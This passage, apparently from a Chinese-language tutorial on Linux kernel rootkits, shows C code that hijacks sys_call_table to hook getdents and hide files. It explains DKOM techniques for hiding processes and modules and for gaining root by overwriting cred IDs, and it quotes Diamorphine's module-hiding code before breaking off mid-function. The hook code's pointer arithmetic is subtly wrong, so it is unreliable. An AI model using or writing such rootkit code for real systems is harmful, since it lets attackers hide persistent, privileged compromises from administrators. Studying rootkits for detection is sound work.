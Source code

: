 ```CPP
asmlinkage long (*orig_getdents)(unsigned int, struct linux_dirent *, unsigned int);
asmlinkage long hooked_getdents(unsigned int fd, struct linux_dirent *dirp, unsigned int count) {
    long ret = orig_getdents(fd, dirp, count);
    struct linux_dirent *d;
    int offset = 0;
    for (offset = 0; offset < ret; ) {
        d = (struct linux_dirent *)(dirp + offset);
        if (strstr(d->d_name, "malicious")) {
            memmove(d, d + d->d_reclen, ret - offset - d->d_reclen);
            ret -= d->d_reclen;
        } else {
            offset += d->d_reclen;
        }
    }
    return ret;
}

static int __init rootkit_init(void) {
    orig_getdents = sys_call_table[__NR_getdents];
    disable_write_protection();
    // 修改sys_call_table 指针数组
    sys_call_table[__NR_getdents] = hooked_getdents;
    enable_write_protection();
    return 0;
}
```

该攻击（系统调用表劫持）的原理是，通过修改`sys_call_table`替换关键系统调用（如`sys_getdents`），用于隐藏文件（ext4-VFS）或者进程（基于`procs`文件系统）。实现上，rootkit需要定位到`sys_call_table`的地址（可通过`kallsyms`或硬编码偏移），然后替换目标函数指针指向恶意hook实现

####    DKOM：直接内核对象操作
直接内核对象操作（Direct Kernel Object Manipulation），通过直接篡改内核内存中的关键数据结构（如进程、文件对象、网络连接表）实现恶意功能的隐藏，无需依赖传统的hook技术，其核心优势在于极高的隐蔽性，缺点是开发复杂且易引发系统崩溃

由于DKOM 技术核心是直接操作内核对象的内存内容，一般可实现如下功能：
-   隐藏进程：移除`task_struct`中的进程链表节点（tasks双向链表），使`ps`、`/proc`等无法枚举恶意进程
-   隐藏文件：篡改文件系统对象（如`dentry`），从目录项链表中删除恶意文件节点，导致`ls`或文件系统扫描跳过该文件
-   提权：修改进程凭证（如`cred`结构体），将普通进程的`UID`/`GID`替换为`0`（即拿到了`root`权限）
-   无钩子痕迹：不同于系统调用表劫持或函数钩子，DKOM技术不修改代码指针，仅篡改数据，规避了基于代码完整性扫描的检测

介绍两个典型 DKOM rootkit 案例

1、[Diamorphine](https://github.com/m0nad/Diamorphine/blob/master/diamorphine.c)

-   进程隐藏：从`init_task`链表中移除目标进程的`task_struct`节点
-   模块隐藏：将自身LKM从内核模块链表（`modules`）中移除，规避`lsmod`检测

```cpp
void
// 模块隐藏，在初始化时移除链表节点
// 在模块加载函数 diamorphine_init() 中，调用 list_del() 将自身从链表中摘除
module_hide(void)
{
	module_previous = THIS_MODULE->list.prev;
	list_del(&THIS_MODULE->list);    // 删除当前模块的链表节点
	module_hidden = 1;
}

// 进程隐藏
struct task_struct *
find_task(pid_t pid)
{
	struct task_struct *p = current;
	for_each_process(p) {
		if (p->pid == pid)
			return p;
```